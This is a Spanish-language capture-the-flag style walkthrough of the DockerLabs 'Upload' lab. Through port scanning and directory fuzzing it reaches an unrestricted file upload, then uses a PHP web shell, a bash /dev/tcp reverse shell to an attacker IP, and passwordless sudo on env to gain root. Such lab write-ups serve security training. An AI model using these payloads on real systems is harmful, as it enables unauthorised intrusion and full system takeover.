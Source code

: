 # Máquina Upload

## Reconocimiento
Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
Este escaneo realiza un escaneo de todos los puertos disponibles en el host "172.17.0.2", mostrando solo los
puertos abiertos, utilizando el escaneo de tipo TCP SYN ("-sT"), estableciendo una velocidad mínima de envío de paquetes de 5000 por segundo ("--min-rate 5000"), activando el modo de verbosidad extremadamente alto ("- vvv"), desactivando la resolución DNS ("-n"), no realizando el ping previo al escaneo ("-Pn"), y guardando los resultados en formato Greppable en un archivo llamado "allPorts" ("-oG allPorts").

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________

PORT    STATE SERVICE REASON
80/tcp  open  http  syn-ack
```
Vemos que tan solo tiene el **puerto 80 abierto**, es decir, el servicio http, donde estará corriendo una página web que inspeccionaremos en unos instantes.
Lanzamos un conjunto de scripts con el parámetro "-sCV" ("-sC" y "-sV" combinados) para que nos reporte más información.
El comando utilizando el script de versión y detección de servicio, enfocándose únicamente en el puerto 80 ("-p80") del host "172.17.0.2", y guarda los resultados en un archivo de texto plano llamado "targeted" ("-oN targeted").

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

--------------------

Vemos el título, la versión de Apache, y poca información más. Accedemos a la web para ver ante qué nos enfrentamos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c4132f21-6c6e-4cd9-ac27-ea530c72a24a)

Encontramos un campo de **subida de archivos**. Esto, sumando al nombre de la máquina, nos deja claro que tendremos que abusar de una subida de archivos para intentar ganar acceso a la máquina.
Probamos a subir un archivo txt de prueba:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/73401c36-dd46-4904-91ea-9f9786574e75)

## Fuzzing

Nos indica que se ha subido correctamente. Ahora vamos a tratar de ubicarlo en algún directorio realizando **fuzzing** para descubrir posibles directorios. Para ello usaremos la herramienta **gobuster** y un diccionario de directorios comunes:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________

/icons/               (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 741]
/server-status/       (Status: 403) [Size: 275]
```

Encontramos un **directorio uploads**.
Accedemos a él y encontramos el archivo que hemos subido:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/af16d052-d909-494b-b31e-7d7dc274e296)

También comprobamos que lo podemos abrir y leer sin problemas:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/732d4fff-fbf9-4155-92a2-86cd325f70a2)

Como ya tenemos una ruta donde ubicar los archivos que subimos, vamos a tratar de subir un archivo con código **php malicioso**. Si lo logramos y este es interpretado por la máquina, podremos llegar a ejecutar comandos en la máquina que corre el servicio web, lo que se conoce como **RCE** -> (Remote Code Execution)

## Explotación

Creamos un archivo llamado **cmd.php**
En este incluimos incluiremos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

**GET** es un método de solicitud utilizado en HTTP para enviar datos a un servidor web. Cuando se usa en una URL, como en ?cmd=valor, indica que se está pasando un parámetro llamado cmd con un valor específico. En el
contexto de este código PHP, captura el valor del parámetro cmd pasado en la URL y lo utiliza como un comando para ejecutar en el sistema.

Observamos que la hemos subido correctamente:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/697a6d79-ff64-4d1e-bc2f-d6d8350c774f)

Nos dirigimos como antes al directorio **/uploads** donde lo deberíamos encontrar:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4fbb15fa-c9a7-4540-9801-22ea4a3de3be)

Observamos que nos está interpretando el php, ya que no aparece el texto que hemos incluido en nuestro cmd.php
Confirmamos que es vulnerable y procedemos a ejecutar un comando.

```
http://172.17.0.2/uploads/cmd.php?cmd=id
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/efd2655f-22ad-44b4-92b3-d8157d349460)

En este caso, al acceder a la URL http://172.17.0.2/uploads/cmd.php?cmd=id, estamos utilizando el método GET para enviar un parámetro llamado cmd con el valor id.

El código PHP en el archivo cmd.php  ejecuta el comando del sistema que se pasa como valor de cmd. Por lo tanto, al pasar como valor de cmd, el servidor ejecuta el comando id, que muestra la identificación del
usuario y los grupos a los que pertenece en el sistema operativo.

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, ejecutamos un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como **Reverse Shell**.
Para ello, nos ponemos en escucha previamente en nuestra máquina atacante, por ejemplo con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que en tu máquina sea necesario **root** para escuchar por el puerto 443)

A continuación, ejecutamos la reverse shell a través de la url como anteriormente el comando id. Le pasaremos el siguiente valor al parámetro cmd:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261" 
```
Los caracteres "**&**" los url-encodearemos para que no nos den problemas (corresponden al **%26**), y la IP en la reverse shell es la correspondiente a nuestra máquina atacante.

Tras ejecutarlo, comprobamos que **hemos ganado acceso a la máquina**.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc007fd1-4766-4a3a-a950-2040f9c3fcb2)

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando "**sudo -l**" para listar los permisos de sudo que tiene el usuario actual en el sistema. Muestra qué comandos específicos el usuario puede ejecutar con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos comandos.

```shell
sudo -l
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/79be4197-1435-47f5-8812-09ed665d2002)

En este caso observamos que podemos ejecutar el binario "**/usr/bin/env**" como el usuario **root**, sin proporcionar contraseña.

Si no sabemos como explotarlo, podemos recurrir a **[GTFOBins]**(https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```shell
sudo env /bin/sh
whoami
________________________________________________
root
```






